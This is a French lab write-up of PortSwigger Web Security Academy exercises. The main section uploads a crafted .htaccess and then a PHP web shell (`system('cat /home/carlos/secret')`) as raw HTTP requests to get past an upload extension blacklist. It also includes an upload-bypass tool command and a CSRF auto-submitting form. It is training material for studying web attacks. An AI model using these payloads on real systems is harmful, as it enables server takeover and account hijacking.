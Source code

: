 # Web

## Web shell upload via extension blacklist bypass

1) Il utilise apache2

![Wappanalyzer file upload](img/wap-up.png)
![site](img/site-up.png)


2) On upload une vrai image.

```http
POST /my-account/avatar HTTP/2
Host: raphzer.net
Cookie: session=mzJjVyYtsM6zpNW0zN1JXXnud4bOrhVL
Content-Length: 30156
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="131", "Not_A Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: en-GB,en;q=0.9
Origin: https://raphzer.net
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryAglUZXYB3a76I10x
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.86 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://raphzer.net/my-account?id=wiener
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

------WebKitFormBoundaryAglUZXYB3a76I10x
Content-Disposition: form-data; name="avatar"; filename="aie.jpg"
Content-Type: image/jpeg

{...}

------WebKitFormBoundaryAglUZXYB3a76I10x
Content-Disposition: form-data; name="user"

wiener
------WebKitFormBoundaryAglUZXYB3a76I10x
Content-Disposition: form-data; name="csrf"

dzWJlCtYyYZRipYXf7rnG2flvqkOpovt
------WebKitFormBoundaryAglUZXYB3a76I10x--
```

3) Upload du .htacess 

`mod_php` : the PHP interpreter is then kind of "embedded" inside the Apache process, there is no external PHP process [Source](https://stackoverflow.com/questions/2712825/what-is-mod-php)

[Apache shell .htacess Cheat Sheet](https://github.com/wireghoul/htshells/)

```http
POST /my-account/avatar HTTP/2
Host: 0a7f00a003828f9685a6a894000b0083.web-security-academy.net
Cookie: session=mzJjVyYtsM6zpNW0zN1JXXnud4bOrhVL
Content-Length: 30156
Origin: https://0a7f00a003828f9685a6a894000b0083.web-security-academy.net
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryAglUZXYB3a76I10x
Sec-Fetch-Dest: document
Referer: https://0a7f00a003828f9685a6a894000b0083.web-security-academy.net/my-account?id=wiener
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

------WebKitFormBoundaryAglUZXYB3a76I10x
Content-Disposition: form-data; name="avatar"; filename=".htacess"
Content-Type: image/jpeg

AddType application/x-httpd-php .zbi

------WebKitFormBoundaryAglUZXYB3a76I10x
Content-Disposition: form-data; name="user"

wiener
------WebKitFormBoundaryAglUZXYB3a76I10x
Content-Disposition: form-data; name="csrf"

dzWJlCtYyYZRipYXf7rnG2flvqkOpovt
------WebKitFormBoundaryAglUZXYB3a76I10x--
```

4) upload du Webshell

```http
POST /my-account/avatar HTTP/2
Host: 0a7f00a003828f9685a6a894000b0083.web-security-academy.net
Cookie: session=mzJjVyYtsM6zpNW0zN1JXXnud4bOrhVL
Content-Length: 30156
Origin: https://0a7f00a003828f9685a6a894000b0083.web-security-academy.net
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryAglUZXYB3a76I10x
Sec-Fetch-Dest: document
Referer: https://0a7f00a003828f9685a6a894000b0083.web-security-academy.net/my-account?id=wiener
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

------WebKitFormBoundaryAglUZXYB3a76I10x
Content-Disposition: form-data; name="avatar"; filename="webshell.zbi"
Content-Type: image/jpeg

<?php system("cat /home/carlos/secret"); ?>

------WebKitFormBoundaryAglUZXYB3a76I10x
Content-Disposition: form-data; name="user"

wiener
------WebKitFormBoundaryAglUZXYB3a76I10x
Content-Disposition: form-data; name="csrf"

dzWJlCtYyYZRipYXf7rnG2flvqkOpovt
------WebKitFormBoundaryAglUZXYB3a76I10x--
```


X) Rien donné

```bash
python3 upload_bypass.py -r ../Portswigger/req.txt -s 'has been uploaded' -E php -D /files/avatars/ --exploit
```


## OAuth account hijacking via redirect_uri


## CSRF
https://0a2b009103a1450c81658e4d0027007a.web-security-academy.net/

<form method="POST" action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="anything%40web-security-academy.net">
</form>
<script>
        document.forms[0].submit();
</script>

##
